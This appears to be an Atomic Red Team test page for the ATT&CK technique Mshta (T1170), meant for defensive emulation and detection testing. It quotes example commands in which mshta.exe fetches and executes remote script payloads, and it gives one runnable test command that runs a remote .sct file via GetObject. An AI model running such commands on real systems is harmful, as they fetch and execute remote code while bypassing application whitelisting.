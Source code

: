 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: GitHub SubTee The List)

Detection: Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the binary being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious.

Platforms: Windows

Data Sources: Process monitoring, Process command-line parameters

Defense Bypassed: Application whitelisting

Permissions Required: User

Remote Support: No

Contributors: Ricardo Dias, Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct|

#### Run it with `command_prompt`!
```
mshta.exe javascript:a=GetObject("script:#{file_url}").Exec();close();
```
<br/>
